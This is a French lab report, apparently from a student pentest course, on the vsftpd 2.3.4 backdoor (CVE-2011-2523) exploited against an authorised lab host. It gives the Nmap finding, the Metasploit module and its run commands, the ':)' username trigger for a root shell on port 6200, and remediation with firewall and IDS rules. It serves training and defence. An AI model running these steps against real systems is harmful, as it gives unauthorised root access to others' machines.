


# Fiche Vulnérabilité N°01 — FTP (vsftpd 2.3.4)

## 1. Contexte et Identification
- **Service cible** : FTP (vsftpd)
- **Port d'écoute** : `21/tcp`
- **Version détectée** : `vsftpd 2.3.4`
- **Référence CVE** : `CVE-2011-2523`
- **Score CVSS v3** : `9.8 (Critique)` — Vecteur : `CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
- **Cible autorisée** : ESGIS VulnBox (`10.1.0.1`)

---

## 2. Démarche Méthodologique & Observations

### A. Détection initiale (Nmap)
Le scan réseau des versions (`reports/nmap-services.txt`) a mis en évidence le service suivant sur le port standard :
```text
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 2.3.4
```

### B. Recherche du module sous Metasploit
Conformément aux bonnes pratiques, la recherche du module correspondant a été effectuée directement dans `msfconsole` :
```text
msf6 > search vsftpd 2.3.4

Matching Modules
================
   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

### C. Analyse technique du module (`info`)
La commande `info exploit/unix/ftp/vsftpd_234_backdoor` détaille l'origine de la faille :
- **Historique** : Entre le 30 juin et le 3 juillet 2011, l'archive officielle `vsftpd-2.3.4.tar.gz` sur le serveur maître a été compromise par l'ajout d'une porte dérobée (*backdoor*).
- **Fonctionnement** : Lorsqu'un client FTP transmet un identifiant se terminant par le motif `:)` (ex: `user toto:)`), le code malveillant déclenche l'ouverture d'une écoute shell interactive sur le port TCP `6200`.

### D. Chargement, configuration et exécution
```text
msf6 > use 0
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.1.0.1
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST etudiant5
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```

---

## 3. Preuves Réelles

### Capture d'écran 1 — Configuration des options dans Metasploit


### Capture d'écran 2 — Preuve technique / Session interactive (PoC)


### Résultat technique observé :
- Déclenchement réussi de la porte dérobée sur la cible autorisée `10.1.0.1`.
- Obtention d'une session interactive avec les privilèges maximaux du système (`uid=0(root)`).
- Intégrité et disponibilité de l'hôte vérifiées via `sysinfo` / `id`.

---

## 4. Mesures Correctives et Remédiation

- **Mise à jour logicielle prioritaire** : Remplacer immédiatement `vsftpd 2.3.4` par une version maintenue exempte de porte dérobée.
- **Contrôle d'intégrité de la chaîne d'approvisionnement (Supply Chain)** : Valider systématiquement les condensats cryptographiques (SHA-256) et les signatures numériques (GPG) des paquets avant tout déploiement en production.
- **Principe de moindre privilège** : Si l'accès FTP anonyme n'est pas indispensable, désactiver le service au profit de protocoles chiffrés et authentifiés (SFTP via OpenSSH).
- **Filtrage défensif (Pare-feu & IDS)** :
  - Restreindre l'accès au port `21/tcp` aux seuls réseaux d'administration autorisés.
  - Bloquer impérativement tout flux sortant ou entrant vers le port TCP `6200`.
  - Configurer une règle de détection réseau (Snort/Suricata) identifiant la séquence caractéristique `:)` dans les trames d'authentification FTP.

---
**Statut actuel** : ✅ **Validé, testé et documenté avec succès**
